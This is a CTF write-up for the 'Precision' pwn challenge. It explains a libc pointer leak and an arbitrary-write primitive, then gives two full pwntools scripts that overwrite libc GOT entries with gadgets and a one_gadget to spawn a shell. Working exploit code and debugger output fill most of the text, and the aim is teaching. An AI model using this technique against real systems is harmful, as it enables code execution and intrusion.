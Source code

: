 ```yaml
---
title: Precision
categories: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flags: flag: THM{REDACTED}
---
```

> No description.

---

Given a binary `precision` and `libc.so.6` file.

```c
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  void *ptr; // [rsp+8h] [rbp-8h]
  void *ptra; // [rsp+8h] [rbp-8h]

  setup(argc, argv, envp);
  printf("\nCoordinates: %p\n", stdout);
  ptr = (void *)getint();
  write(1, "\nFirst chance: ", 0xFuLL);
  fread(ptr, 8uLL, 1uLL, stdin);
  ptra = (void *)getint();
  write(1, "\nSecond chance: ", 0x10uLL);
  fread(ptra, 8uLL, 1uLL, stdin);
  perror("!");
  _exit(1337);
}
```

The `main` function is simple, it calls `setup` function and print the `stdout` address. Then it calls `getint` function to get the input and read 8 bytes from the `stdin` to the address of the input. Then it calls `getint` function again to get the input and read 8 bytes from the `stdin` to the address of the input. Then it calls `perror` function and `_exit` function.

```c
unsigned __int64 getint()
{
  char s[72]; // [rsp+0h] [rbp-50h] BYREF
  unsigned __int64 v2; // [rsp+48h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  write(1, "\n>> ", 4uLL);
  fgets(s, 64, stdin);
  return strtoul(s, 0LL, 10);
}
```

The `getint` function is simple, it reads 64 bytes from the `stdin` and convert the input to the unsigned long integer. So we can abritrary write to the memory.

Setting breakpoint to the `main` function and to analyze the `GOT` address.

```sh
pwndbg> b *main
pwndbg> r
pwndbg> got -p ./libc.so.6
```

![alt text](image.png)

Set breakpoint to each `GOT` address and analyze the registers. After some finding i found we can use `__strlen_avx2` to replace the `GOT` address to call some address.

```sh
pwndbg> b *0x7ffff7f30960
Breakpoint 2 at 0x7ffff7f30960: file ../sysdeps/x86_64/multiarch/strlen-avx2.S, line 50.
pwndbg> c
```

![alt text](image-1.png)

So now we can use `__strlen_avx2` to call the one gadget.

```sh
$ one_gadget -l1 ./libc.so.6
```

```
0xebcf8 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
```

So, `RCX`, `R9`, `RSI` and `R12` is empty, we can make this to make `RDX` to be NULL.

```sh
$ ROPgadget --binary libc.so.6 | grep "mov rdx, r12"
...
0x0000000000176df7 : mov rdx, r12 ; sub rdx, rsi ; call 0x283e0
...
```

And it call `__mempcpy_avx_unaligned_erms` got address. So we can replace the `__strlen_avx2` GOT to the address of `mov rdx, r12` gadget to clear the `RDX` register. and use `__mempcpy_avx_unaligned_erms` to call the one gadget.

```py
from pwn import *

binary = './precision'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('10.10.39.142', 9004)
# r = remote('127.0.0.1', 9004)
libc = ELF('./libc.so.6')

# gdb.attach(r, '''
#         c
#             ''')

r.recvuntil(b'Coordinates: ')
leak = r.recvline().strip()
leak = int(leak, 16)
log.info(f'Leak: {hex(leak)}')
libc_base = leak - libc.symbols['_IO_2_1_stdout_']
log.info(f'Libc base: {hex(libc_base)}')

libc.address = libc_base

__strlen_avx2 = libc_base + (0x7ffff7fac098 - 0x7ffff7d93000)
__mempcpy_avx_unaligned_erms = libc_base + (0x7ffff7fac040 - 0x7ffff7d93000)

r.sendlineafter(b'>> ', str(__strlen_avx2).encode())
r.send(p64(libc_base + 0x176df7))

r.sendlineafter(b'>> ', str(__mempcpy_avx_unaligned_erms).encode())
r.send(p64(libc_base + 0xebcf8))

r.interactive()
```

## Bonus

Another solution to call the one gadget without meet the constraints (only works on remote).

```py
from pwn import *

binary = './precision'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
# r = process(binary)
r = remote('10.10.39.142', 9004)
libc = ELF('./libc.so.6')

r.recvuntil(b'Coordinates: ')
leak = r.recvline().strip()
leak = int(leak, 16)
log.info(f'Leak: {hex(leak)}')
libc_base = leak - libc.symbols['_IO_2_1_stdout_']
log.info(f'Libc base: {hex(libc_base)}')

libc.address = libc_base

one_gadget = libc_base + 0x10DBCA
got = libc_base + (0x7ffff7fac0b8 - 0x7ffff7d93000)

r.sendlineafter(b'>> ', str(got).encode())
r.send(p64(one_gadget))

r.sendlineafter(b'>> ', str(got).encode())
r.send(p64(one_gadget))

r.sendline(b'cat flag.txt') 

r.interactive()
```

## References

- [Code execution with a write primitive on last libc.](https://github.com/nobodyisnobody/docs/tree/6960bfb204f0cfe844d75809412b0f79313f105d/code.execution.on.last.libc)
- [code execution inferno](https://github.com/nobodyisnobody/write-ups/tree/main/RCTF.2022/pwn/bfc#code-execution-inferno)
